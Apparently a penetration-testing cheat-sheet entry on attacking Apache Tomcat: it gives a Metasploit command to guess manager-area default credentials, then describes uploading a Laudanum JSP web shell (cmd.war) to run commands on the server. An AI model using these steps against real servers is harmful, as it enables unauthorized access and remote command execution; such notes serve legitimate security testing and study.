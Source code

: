 Java-based web application server

## Exploit
Get access to the tomcat manager area by trying default credentials.

	msf > use auxiliary/scanner/http/tomcat_mgr_login	
		set STOP_ON_SUCCESS true

### After getting access to the tomcat manager area:
Upload cmd.war into the server and execute it by accessing its location via the website.

	/usr/share/laundanum
	/usr/share/laundanum/jsp
	/usr/share/laundanum/jsp/cmd.war -> creates a shell that allows to run commands on the server
	or

	search for "tomcat manager area exploit"